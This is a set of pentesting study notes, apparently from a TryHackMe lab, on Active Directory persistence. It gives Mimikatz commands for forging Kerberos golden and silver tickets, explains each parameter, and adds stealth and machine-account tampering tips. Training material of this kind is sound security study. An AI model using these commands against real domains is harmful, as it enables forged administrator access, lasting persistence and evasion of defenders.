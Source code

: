 # Active Directory  Persistence With Tickets


Understanding Kerberos is a must, view: [[Active-Directory-Kerberos-Authentication-Defined]] and then [[Attacking-Kerberos]] pages.

When using [[Golden-Tickets]]:
- Extend the valid for X amount of time field
- Ticket is valid for 20 minutes 
- Accounts must be 20 minutes old! 
	- Also disabled, deleted, or non-existent accounts can be impersonated 
- Consider making them on non-domain joined for stealth

When using [[Silver-Tickets]]:
- We can leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account
- Permissions are determined through SID so non-existent users must have relevant SIDs, 
	- i.e SID that indicates the users to be in the host's local administrators group 

Use AD-RSAT for Domain SID, then Golden Ticket with [[Mimikatz-Cheatsheet]]
```powershell
Get-ADDomain
# Mimikatz
# Golden Ticket
kerberos::golden /admin:$admin /domain:$domain /id:500 /sid:$domain-SID /krbtgt:$krbtgt-hash /endin:600 /renewmax:10080 /ptt
```

-   **/admin** - The username we want to impersonate. This does not have to be a valid user.  
-   **/domain** - The FQDN of the domain we want to generate the ticket for.  
-   **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
-   **/sid** -The SID of the domain we want to generate the ticket for.
-   **/krbtgt** -The NTLM hash of the KRBTGT account.  
-   **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)  
-   **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)  
-   **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session now

Silver ticketing
```powershell
Get-ADDomain # for Domain SID
# Mimikatz
# Silver Tickets
kerberos::golden /admin:$admin /domain:$domain /id:500 /sid:$Domain-SID /target:$target-hostname-server /rc4:$ntlm-hash-of-machine-account /service:cifs /ptt
```

-   **/admin** - The username we want to impersonate. This does not have to be a valid user.  
-   **/domain** - The FQDN of the domain we want to generate the ticket for.  
-   **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
-   **/sid** -The SID of the domain we want to generate the ticket for.
-   **/target* - the hostname of target server  
-   **/rc4** - The NTLM has of the machine account of our target
-   **/service** - The service we are requesting in our TGS. CIFs is a safe bet, since it allows file access  
-   **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session now

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)